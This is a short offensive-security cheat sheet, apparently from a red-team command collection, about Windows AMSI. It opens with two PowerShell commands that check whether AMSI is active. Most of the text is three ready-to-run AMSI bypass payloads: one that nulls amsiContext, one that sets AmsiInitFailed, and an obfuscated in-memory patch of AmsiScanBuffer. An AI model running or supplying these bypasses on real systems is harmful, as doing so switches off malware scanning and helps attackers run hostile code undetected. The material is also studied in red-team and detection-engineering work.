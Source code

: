 # pwsh
% windows, security, amsi

#plateform/windows #target/local #cat/RECON/SECURITY/AMSI #tag/powershell 

## check AMSI enabled (tasklist)
```powershell
tasklist /m amsi* 
```

## check AMSI enabled (registry)
{2781761E-28E0-4109-99FE-B9D127C57AFE}
```powershell
Get-ChildItem HKLM:\SOFTWARE\Microsoft\AMSI\Providers\
```

## Bypass AMSI with _amsiContext_ (powershell only)
#cat/DEFENSE-EVASION/AMSI
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
#cat/DEFENSE-EVASION/AMSI
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)
#cat/DEFENSE-EVASION/AMSI
more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```
